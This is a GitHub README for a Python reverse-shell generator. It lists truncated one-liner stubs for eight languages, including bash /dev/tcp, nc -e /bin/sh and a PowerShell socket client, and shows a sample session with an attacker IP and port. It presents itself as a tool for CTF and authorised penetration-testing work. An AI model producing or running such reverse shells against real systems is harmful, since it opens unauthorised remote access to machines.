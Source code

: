 # 🔥 Reverse-shell-generator 
![](images/py.png)
## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports eighth languages: Bash, Python, PHP, Perl, Netcat, Java, Xterm and Powershell

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Language  | Command                                |
| - | ------    | -------------------------------------- |
| 1 | Bash      | `bash -i >& /dev/tcp/...`              |
| 2 | Python    | `python3 -c 'import socket,...'`       |
| 3 | PHP       | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl      | `perl -e 'use Socket; ...'`            |
| 5 | Netcat    | `nc -e /bin/sh ...`                    |
| 6 | Java      | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm     | `xterm -display IP:PORT`               |
| 8 | Powershell| `powershell -c "$client = New-Objec...`|

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
